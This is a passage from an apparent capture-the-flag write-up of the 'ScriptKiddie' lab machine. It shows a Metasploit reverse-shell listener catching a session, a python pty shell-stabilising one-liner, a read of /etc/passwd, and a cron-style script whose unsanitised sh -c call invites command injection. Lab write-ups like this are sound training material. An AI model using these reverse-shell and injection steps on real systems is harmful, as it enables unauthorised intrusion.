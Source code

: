 ```bash

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.111:8989
```

Upload malicious template to website and generate (using 'victim' machine's IP)
![[Pasted image 20210503225209.png]]
Achieve reverse shell, find out 'who we are'
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.111:8989
[*] Command shell session 1 opened (10.10.14.111:8989 -> 10.10.10.226:52530) at 2021-05-03 22:47:36 -0600

whoami
kid
pwd
/home/kid/html
uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

Stabilize shell via python (the --version check at first is to check that this will even work)
```bash
python3 --version
Python 3.8.5

python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ whoami
whoami
kid
kid@scriptkiddie:~/html$
```

Some initial poking around on the machine, we see 2 users; kid and pwd.
```bash
kid@scriptkiddie:~/logs$ cat /etc/passwd | grep 'home'
cat /etc/passwd | grep 'home'
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
kid@scriptkiddie:~/logs$
```

Hold on to this for additional review:
```bash
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
kid@scriptkiddie:/home/pwn$
```
